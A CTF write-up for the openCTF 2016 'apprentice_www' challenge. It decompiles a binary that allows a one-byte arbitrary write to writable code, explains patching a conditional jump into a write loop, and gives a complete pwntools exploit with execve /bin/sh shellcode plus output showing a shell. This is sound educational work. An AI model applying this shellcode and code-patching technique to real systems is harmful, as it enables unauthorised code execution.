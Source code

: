 ```yaml
---
layout: post
title: openCTF 2016 - apprentice_www
category: [Exploitation]
tags: [Exploitation, openCTF]
comments: true
---
```


**Points:** 300
**Solves:** 
**Category:** Exploitation
**Description:**

> [apprentice_www]({{site.url}}/assets/apprentice_www_9cc7495fae4a9b23db4c7595865af973)

In `main()` right after the typical calls to setvbuf for STDIN and STDOUT we have a `setup` function.
{% highlight C %} 
void setup(int addr_of_main) {
    for (counter = 0x0; counter <= 0x2; counter = counter + 0x1) {
            mprotect((addr_of_main & 0x8048000) + (counter << 0xc), 0x1000, 0x7);
    }
    return;
}
{% endhighlight %}

What `setup` does is, it sets the permissions of the .text .data and .bss sections to read, write and execute.
The function after `setup` is `butterflySwag`. This function takes 2 input variables. An address and a 1 byte value. It writes the 1 byte value to the address we specify and returns.

{% highlight C %}
int butterflySwag() {
  __isoc99_scanf("%u", addr);
  __isoc99_scanf("%d", byte);
  byte = byte & 0xff;
  *(int8_t *)addr = byte;
  if (byte == 0x0) {
    puts("That which does not kill us makes us stronger.");
  }
  else {
    if (byte == 0x1) {
      puts("All truly great thoughts are conceived by walking.");
    }
    else {
      if (byte <= 0x4) {
        puts("Without music, life would be a mistake.");
      }
      else {
        if (byte <= 0x9) {
          puts("He who has a why to live can bear almost any how.");
        }
        else {
          puts("When you look into an abyss, the abyss also looks into you.");
        }
      }
    }
  }
  return 0x0;
}
{% endhighlight %}

![butterflySwag]({{site.url}}/assets/screen-openctf-1.png)

# Solution

So we have a 1 byte patch anywhere in the binary including the .text segment. Of course we can't get a shell with just a single byte, so let's make a way to get more bytes in there. Since one of following if statements are conveniently close to the code taking input and considering they are all short conditional jumps which are a 1 byte opcode `0x75` (for the JNE) followed by 1 byte signed char distance to jump we can patch the first if statement with a negative byte distance to jump back if `byte != 0`.

After calculating the negative distance to jump back, the disassembly looks like this:

![jump-back]({{site.url}}/assets/screen-openctf-2.png)

Now that we can patch unlimited number of bytes while `byte != 0` let's write some shellcode byte by byte right after the conditional jump back and get out of this loop by sending `byte == 0`.

{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

def exploit(r):
  r.sendline(str(0x080485da))
  r.sendline(str(0xc2))

  sc_addr = 0x080485db
  sc = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
      "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")

  for c in range(len(sc)):
    r.sendline( str(sc_addr+c) )
    r.sendline( str(ord(sc[c])) )

  r.sendline(str(0x08048500))
  r.sendline(str(0))

  r.interactive()


if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['/vagrant/openCTF/apprentice_www_9cc7495fae4a9b23db4c7595865af973'])
        print util.proc.pidof(r)
        pause()
        exploit(r)
{% endhighlight %}

{% highlight text %}
➜  openCTF python ./apprentice_www_solution.py
[*] For remote: ./apprentice_www_solution.py HOST PORT
[+] Starting program '/vagrant/openCTF/apprentice_www_9cc7495fae4a9b23db4c7595865af973': Done
[21612]
[*] Paused (press any to continue)
[*] Switching to interactive mode
$ id
uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant)
$
{% endhighlight %}
